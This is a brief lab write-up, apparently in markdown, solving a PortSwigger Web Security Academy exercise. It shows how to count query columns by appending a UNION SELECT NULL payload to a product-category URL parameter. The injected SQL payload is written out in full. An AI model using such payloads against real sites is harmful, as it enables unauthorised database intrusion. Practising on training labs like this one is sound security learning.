


[Source](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)
## Task
Determine the number of columns returned by a query by performing a SQL injection attack using the `UNION` operator, which will return an additional row with null values.
## Solution
Go to the site



Choose any category (I chose `Gifts`). In `URL` we add
```SQL
'+UNION+SELECT+NUll,NULL,NULL--
```
To get this `URL`:
```URL
https://web-security-academy.net/filter?category=Gifts'+UNION+SELECT+NUll,NULL, NULL--
```


